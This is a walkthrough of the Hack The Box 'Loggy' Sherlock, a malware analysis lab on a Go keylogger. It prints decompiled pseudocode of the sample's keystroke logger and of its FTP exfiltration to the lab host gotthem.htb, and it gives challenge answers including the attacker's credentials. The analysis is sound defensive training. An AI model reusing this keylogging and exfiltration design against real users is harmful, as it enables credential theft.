- **Sherlock Scenario**
	- Janice from accounting is beside herself! She was contacted by the SOC to tell her that her work credentials were found on the dark web by the threat intel team. We managed to recover some files from her machine and sent them to the our REM analyst.
- **Category: Malware Analysis**
- **Difficulty: Easy**
- File:- [Loggy.zip](/uploads/HTB_Sherlock_Loggy/Loggy.zip)



- For this Sherlock we are provided with a zip file that contains some image files taken the users computer, the malicious file in a zip file, and a text file named, keylog.txt.
- The `danger.txt` file just has some warnings about the malicious windows executable in `danger.zip`. I went ahead and extracted the malicious file onto my Kali Linux VM and took a look at the first task in the Sherlock.

# Task 1

## What is the SHA-256 hash of this malware binary?

- I went ahead and obtained the SHA-256 hash via using the `sha256sum` cli tool.



```
6acd8a362def62034cbd011e6632ba5120196e2011c83dc6045fcb28b590457c
```

# Task 2

## What programming language (and version) is this malware written in? 

- So see in which programming language this malware is written, i will use DIE (Detect it Easy),



```
Golang 1.22.3
```

# Task 3

## There are multiple GitHub repos referenced in the static strings. Which GitHub repo would be most likely suggest the ability of this malware to exfiltrate data?

- I used [floss](https://github.com/mandiant/flare-floss) tool by Mandiant,
- The FLARE Obfuscated String Solver (FLOSS, formerly FireEye Labs Obfuscated String Solver) uses advanced static analysis techniques to automatically extract and deobfuscate all strings from malware binaries. 
- You can use it just like `strings.exe` to enhance the basic static analysis of unknown binaries.



- FTP (File Transfer Protocol) might be useful to threat actor to exfiltrate data so this is the answer.

```
github.com/jlaffaye/ftp
```

# Task 4

## What dependency, expressed as a GitHub repo, supports Janice’s assertion that she thought she downloaded something that can just take screenshots? 

- I used same [floss](https://github.com/mandiant/flare-floss) tool for extracting related string which might look like tool which do something that can just take screenshots.



```
github.com/kbinani/screenshot
```

# Task 5

## Which function call suggests that the malware produces a file after execution? 

- To examine all imported APIs, I used [pestudio](https://www.winitor.com/download) tool which identifies key indicators in Windows executable files.
- Under `imports` section we can see `WriteFile` which is being imported from `kernel32.dll` library. 



```
WriteFile
```

# Task 6

## You observe that the malware is exfiltrating data over FTP. What is the domain it is exfiltrating data to?

- I tried so find C2 domain in strings but unable to see it so i used [IDA Disassembler, Decompile and Debugger](https://hex-rays.com/ida-pro) Free version.
- After importing it in ida i look out for function which exfiltrate data through ftp and i found this function, `sendFilesViaFTP` which contain this string which contains domain,



- Here is the decompiled pseudocode, 

```c
// main.sendFilesViaFTP
__int64 main_sendFilesViaFTP()
{
  __int64 v0; // rcx
  int v1; // eax
  int v2; // ecx
  int v3; // r8d
  int v4; // r9d
  int v5; // r10d
  int v6; // r11d
  _QWORD v8[2]; // [rsp+100h] [rbp-58h] BYREF
  _QWORD v9[6]; // [rsp+110h] [rbp-48h] BYREF

  github_com_jlaffaye_ftp_Dial(
    "gotthem.htb:21not a PNG fileComputerNameEx: extra text: ControlServiceOpenSCManagerWRegSetValueExWCreateProcessWDwmEnableMMCSSDwmShowContactGetStockObjectGetPixelFormatSetPixelFormatGdiplusStartupSizeofResourceModule32FirstWGetSystemTimesVirtualAllocExCoInitializeExCoUninitializeSysAllocStringwglMakeCurrentDragQueryFileWDragQueryPointDefWindowProcWSetWindowTextWGetWindowTextWScreenToClientSetWindowLongWGetWindowLongWInvalidateRectReleaseCaptureClientToScreenCloseClipboardEmptyClipboardCallNextHookExinvalid syntax1907348632812595367431640625unexpected EOFunsafe.Pointer on zero Valueunknown methoduserArenaStateread mem statsallocfreetracegcstoptheworldGC assist waitfinalizer waitsync.Cond.Waits.allocCount= nil elem type! to finalizer GC worker initruntime: full=runtime: want=MB; allocated timeEndPeriod",
    14,
    0,
    0,
    0);
  v8[0] = MEMORY[0x16];
  v8[1] = v0;
  v9[0] = main_sendFilesViaFTP_Printf_func1;

  v9[2] = 35;
  v9[1] = &aX509UnhandledC[272];
  v9[4] = 1;
  v9[5] = 1;
  v9[3] = v8;
  v1 = log__ptr_Logger_output(log_std, 0, 2, v9);
  return runtime_deferreturn(v1, 0, v2, (unsigned int)v9, 0, v3, v4, v5, v6);
}
```

```
gotthem.htb
```

# Task 7

## What are the threat actor’s credentials?

- Some how i can't able to see username, password in pseudocode maybe because those are loaded from other section like these are static strings embedded in `.rdata` and are referenced via **LEA into registers** so i used IDA-View and in this i found both,
- It happens because Hex-Rays is **C-centric**, not Go. 



```
NottaHacker:Cle@rtextP@ssword
```

# Task 8

## What file keeps getting written to disk?

- Again file name is written in read-only section of binary (`.rdata`), in `main_logKey` function,



- Here is `main_logKey` decompiled code,

```c
// main.logKey
void *__golang main_logKey(__int64 a1, int a2, __int64 a3, int a4, int a5, int a6, int a7, int a8, int a9)
{
  __int128 v9; // xmm15
  int v10; // ecx
  int v11; // ebx
  const char *v12; // rax
  int v13; // ecx
  int v14; // r8d
  int v15; // r9d
  int v16; // r10d
  int v17; // r11d
  int v18; // r8d
  int v19; // r9d
  int v20; // r10d
  int v21; // r11d
  int v22; // r8d
  int v23; // r9d
  int v24; // r10d
  int v25; // r11d
  __int64 v26; // rax
  int v27; // r10d
  int v28; // r11d
  __int64 v30; // [rsp-38h] [rbp-48h]
  __int64 v31; // [rsp-38h] [rbp-48h]
  __int64 v32; // [rsp-30h] [rbp-40h]
  __int64 v33; // [rsp-28h] [rbp-38h]
  __int64 v34; // [rsp-20h] [rbp-30h]
  __int64 v35; // [rsp-18h] [rbp-28h]
  __int128 v36; // [rsp+0h] [rbp-10h] BYREF

  v10 = a1 - 8;
  switch ( a1 )
  {
    case 8LL:
      v11 = 11;
      v12 = "[BACKSPACE]NottaHacker/dev/stdout/dev/stderr";
      break;
    case 9LL:
      v11 = 5;
      v12 = "[TAB][ALT][ESC]false<nil>ErrorwritecloseMarchApril+0530+0430+0545+0630+0330+0845+1030+1245+1345-0930monthLocalGetDCTYPE PRET 1562578125int16int32int64uint8arrayslice and NRGBAdefersweeptestRtestWexecWexecRschedhchansudoggscanmheaptracepanicsleep cnt=gcing MB,  got= ...\n max=scav  ptr ] = (usageinit  ms, fault tab= top=[...], fp:ntohstls: Earlyfileshttpsimap2imap3imapspop3shostsGreeksse41sse42ssse3SHA-1P-224P-256P-384P-521ECDSA (at Classparse[CTRL][LEFT][DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 13LL:
      v11 = 7;
      v12 = "[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 16LL:
      v11 = 7;
      v12 = "[SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 17LL:
      v11 = 6;
      v12 = "[CTRL][LEFT][DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 18LL:
      v11 = 5;
      v12 = "[ALT][ESC]false<nil>ErrorwritecloseMarchApril+0530+0430+0545+0630+0330+0845+1030+1245+1345-0930monthLocalGetDCTYPE PRET 1562578125int16int32int64uint8arrayslice and NRGBAdefersweeptestRtestWexecWexecRschedhchansudoggscanmheaptracepanicsleep cnt=gcing MB,  got= ...\n max=scav  ptr ] = (usageinit  ms, fault tab= top=[...], fp:ntohstls: Earlyfileshttpsimap2imap3imapspop3shostsGreeksse41sse42ssse3SHA-1P-224P-256P-384P-521ECDSA (at Classparse[CTRL][LEFT][DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 20LL:
      v11 = 10;
      v12 = (const char *)&unk_650313;
      break;
    case 27LL:
      v11 = 5;
      v12 = "[ESC]false<nil>ErrorwritecloseMarchApril+0530+0430+0545+0630+0330+0845+1030+1245+1345-0930monthLocalGetDCTYPE PRET 1562578125int16int32int64uint8arrayslice and NRGBAdefersweeptestRtestWexecWexecRschedhchansudoggscanmheaptracepanicsleep cnt=gcing MB,  got= ...\n max=scav  ptr ] = (usageinit  ms, fault tab= top=[...], fp:ntohstls: Earlyfileshttpsimap2imap3imapspop3shostsGreeksse41sse42ssse3SHA-1P-224P-256P-384P-521ECDSA (at Classparse[CTRL][LEFT][DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 32LL:
      v11 = 7;
      v12 = "[SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 37LL:
      v11 = 6;
      v12 = "[LEFT][DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 38LL:
      v11 = 4;
      v12 = "[UP]";
      break;
    case 39LL:
      v11 = 7;
      v12 = "[RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    case 40LL:
      v11 = 6;
      v12 = "[DOWN]StringFormat[]bytestringSundayMondayFridayAugustUTC-11UTC-02UTC-08UTC-09UTC+12UTC+13minutesecondBitBltPatBltEndDocLineToMulDivPBSZ 0PROT P390625uint16uint32uint64structchan<-<-chan ValueRGBA64Gray16sysmontimersefenceselect, not object next= jobs= goid sweep  B -> % util alloc free  span= prev= list=, i =  code= addr= m->p= p->m=SCHED  curg= ctxt: min=  max= (...)\n m=nil base GetACPlistensocket, val X25519%w%.0wnetdnsdomaingophertelnet.localreturn.onionip+netSaveDCCommonrdtscppopcntcmd/goheaderAnswerLengthsendtoSTREETavx512rdrandrdseed[ENTER][SHIFT][SPACE][RIGHT]float32float64readdirconsoleTuesdayJanuaryOctoberMUI_StdMUI_DltEllipseEndPageSetRectToAsciiUSER %sPASS %sREST %dSTOR %s19531259765625invaliduintptrSwapperChanDir Value>NRGBA64forcegcallocmWcpuprofallocmRunknowngctraceIO waitrunningsyscallwaitingUNKNOWN:events, goid= s=nil\n (scan  MB in pacer: % CPU ( zombie, j0 = head = panic:  nmsys= locks= dying= allocsGODEBUG m->g0= pad1=  pad2=  text= minpc= \tvalue= (scan)\ttypes : type CopySidWSARecvWSASendconnectnil keyderivedInitialwindowswsarecvwsasendlookup writeto%03d %sFillRgnpdh.dllIsChildSetMenuavx512fos/execruntimeSHA-224SHA-256SHA-384SHA-512Ed25519MD2-RSAMD5-RSAserial:::ffff:answersFreeSidSleepEx2.5.4.62.5.4.32.5.4.52.5.4.72.5.4.82.5.4.9amxtileamxint8amxbf16osxsave#internGoString";
      break;
    default:
      if ( (unsigned __int64)(a1 - 48) <= 9 )
      {
        *(_QWORD *)&v36 = &RTYPE_int;
        *((_QWORD *)&v36 + 1) = runtime_convT64(a1, a2, (int)a1 - 48, a4, a5, a6, a7, a8, a9);
        v11 = 2;
        a4 = 1;
        a5 = 1;
        LODWORD(v12) = fmt_Sprintf((unsigned int)&unk_64F0A9, 2, (unsigned int)&v36, 1, 1, v22, v23, v24, v25, v30);
      }
      else
      {
        v13 = a1 - 65;
        *(_QWORD *)&v36 = &RTYPE_int;
        if ( (unsigned __int64)(a1 - 65) > 0x19 )
        {
          *((_QWORD *)&v36 + 1) = runtime_convT64(a1, a2, v13, a4, a5, a6, a7, a8, a9);
          v11 = 12;
          a4 = 1;
          a5 = 1;
          LODWORD(v12) = fmt_Sprintf((unsigned int)&unk_650E58, 12, (unsigned int)&v36, 1, 1, v18, v19, v20, v21, v30);
        }
        else
        {
          *((_QWORD *)&v36 + 1) = runtime_convT64(a1, a2, v13, a4, a5, a6, a7, a8, a9);
          v11 = 2;
          a4 = 1;
          a5 = 1;
          LODWORD(v12) = fmt_Sprintf((unsigned int)&unk_64F0A9, 2, (unsigned int)&v36, 1, 1, v14, v15, v16, v17, v30);
        }
      }
      break;
  }
  v36 = v9;
  v26 = runtime_convTstring((_DWORD)v12, v11, v10, a4, a5, a6, a7, a8, a9, v30);
  *(_QWORD *)&v36 = &RTYPE_string;
  *((_QWORD *)&v36 + 1) = v26;
  fmt_Fprintf(
    (unsigned int)go_itab__os_File_io_Writer,
    (_DWORD)runtime_bss,
    (unsigned int)&unk_64F10B,
    3,
    (unsigned int)&v36,
    1,
    1,
    v27,
    v28,
    v31,
    v32,
    v33,
    v34,
    v35);
  return os__ptr_File_Sync(runtime_bss).tab;
}
```



```
keylog.txt
```
# Task 9

## When Janice changed her password, this was captured in a file. What is Janice's username and password

- There is one `keylog.txt` is given in zip, so when i open it in sublime and it looks like bunch of keystrokes registered in file,



- Here is user `janice` written key by key,
	- So we have to extract password similarly.





```
janice:Password123
```
# Task 10

## What app did Janice have open the last time she ran the "screenshot app"?


```
Solitaire
```